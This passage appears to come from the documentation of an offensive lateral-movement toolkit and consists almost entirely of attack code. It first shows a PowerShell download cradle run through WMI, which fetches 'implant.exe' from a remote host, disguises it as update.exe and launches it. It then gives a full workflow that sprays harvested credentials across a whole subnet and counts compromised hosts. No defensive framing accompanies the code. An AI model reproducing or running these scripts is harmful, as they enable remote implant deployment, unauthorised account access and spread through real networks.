 ```python
    ps_script = '''
    $url = "http://10.10.10.10:8000/implant.exe"
    $path = "C:\\temp\\update.exe"
    Invoke-WebRequest -Uri $url -OutFile $path
    Start-Process $path
    '''

    wmi.execute_powershell(ps_script)
    print(f"[+] Implant deployed via WMI download cradle")
```

### Workflow 2: Network-Wide Credential Spray

```python
from lateral_movement.automated_lateral import AutomatedLateralMovement

# Initialize scanner
scanner = AutomatedLateralMovement(max_workers=20, domain='CORP')

# Load credentials from file
with open('harvested_creds.txt') as f:
    for line in f:
        username, password = line.strip().split(':')
        scanner.add_credential(username, password, 'CORP')

print(f"[+] Loaded {len(scanner.credentials)} credentials")

# Add entire subnet
scanner.add_target_range('192.168.1.0/24')

print(f"[+] Added {len(scanner.targets)} targets")

# Spray credentials (test all credentials on all hosts)
print("[*] Starting credential spray...")
results = scanner.spray_credentials(stop_on_success=False)

# Analyze results
print(f"\n[+] Spray complete!")
print(f"  Credentials tested: {scanner.scan_stats['credentials_tested']}")
print(f"  Hosts compromised: {scanner.scan_stats['hosts_compromised']}")
print(f"  Success rate: {(scanner.scan_stats['successful_movements'] / scanner.scan_stats['credentials_tested'] * 100):.2f}%")

# Show credential success rates
rates = scanner._calculate_success_rate()
for cred, stats in sorted(rates.items(), key=lambda x: x[1]['rate'], reverse=True):
    print(f"\n{cred}:")
    print(f"  Success rate: {stats['rate']}%")
    print(f"  Successes: {stats['successes']}/{stats['attempts']}")

# Export results
scanner.export_results('spray_results.json')
```
